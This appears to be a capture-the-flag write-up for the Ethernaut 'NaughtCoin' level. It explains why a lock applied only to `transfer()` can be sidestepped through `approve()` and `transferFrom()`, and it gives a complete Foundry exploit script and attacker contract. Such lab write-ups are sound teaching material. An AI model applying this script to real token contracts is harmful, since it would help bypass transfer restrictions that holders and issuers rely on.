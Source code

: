 - Solution

1. NaughtCoin imports ERC20 contract. So, it consists of all the function of ERC20 contract also.
2. NaughtCoin only implemented the `lockTokens()` modifier on `transfer()` function only.
3. There are other ways to transfer tokens from one address to other without using `transfer()`
4. Player can approve the allowances of their tokens to someone, and they can use `transferFrom()` function to transfer tokens on behalf of player.

`NaughtCoinSolve.s.sol`

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import {NaughtCoin} from "../src/NaughtCoin.sol";

contract NaughtCoinSolve is Script{
    NaughtCoin public naughtCoin = NaughtCoin(0xE4497348f2557Bb7Ecb4631426a0c2d880BE0497);
    function run() external{
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        address player = address(naughtCoin.player());
        uint playerBalance = naughtCoin.balanceOf(player);
        console.log("Player : ", player);
        console.log("Player Balance : ", playerBalance);
        
        Attack attack = new Attack();
        console.log("Attack Address : ", address(attack));
        
        naughtCoin.approve(address(attack), playerBalance);

        attack.exploit(player);

        console.log("Player : ", player);
        console.log("Player Balance : ", naughtCoin.balanceOf(player));
        console.log("Attacker Balance : ", naughtCoin.balanceOf(address(attack)));

        vm.stopBroadcast();
    }
}

contract Attack{
    NaughtCoin public naughtCoin = NaughtCoin(0xE4497348f2557Bb7Ecb4631426a0c2d880BE0497);

    function exploit(address _player) public {
        
        require(naughtCoin.allowance(_player, address(this)) > 0, "Not approved yet");

        require(naughtCoin.transferFrom(_player, address(this), naughtCoin.balanceOf(_player)), "Transfer to Atacker Failed");
    }
}
```
